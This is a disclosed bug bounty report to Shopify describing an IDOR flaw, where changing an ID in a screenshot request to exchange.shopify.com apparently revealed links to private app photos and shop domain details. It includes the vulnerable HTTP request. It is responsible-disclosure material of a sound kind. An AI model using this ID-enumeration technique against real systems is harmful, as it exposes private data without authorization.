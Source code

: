 # Access to Private Photos of Apps in App section(IDOR)

## Report Details
- **Report ID**: 318751
- **URL**: https://hackerone.com/reports/318751
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-22T20:01:57.103Z
- **Disclosed**: 2018-03-05T19:34:35.107Z

## Reporter
- **Username**: indoappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
##Bug location :
 https://[MyShop].myshopify.com/admin/apps

##Description : 
Previewing the Photo In App section Request is vulnerable to IDOR attack where changing the ID leads to Disclose Link of Private photos. Also It discloses the Shop Domain details also. The request goes through exchange.shopify.com. 

##Vulnerable Request : 
GET /listings/hackeronevg1110/shop_screenshots/85952 HTTP/1.1
Host: exchange.shopify.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: [Cookies]
Connection: close
Upgrade-Insecure-Requests: 1


Let me know if you need more info.

Regards,
Vijay Kumar

## Impact

Information disclosure.

## Attachments
No attachments
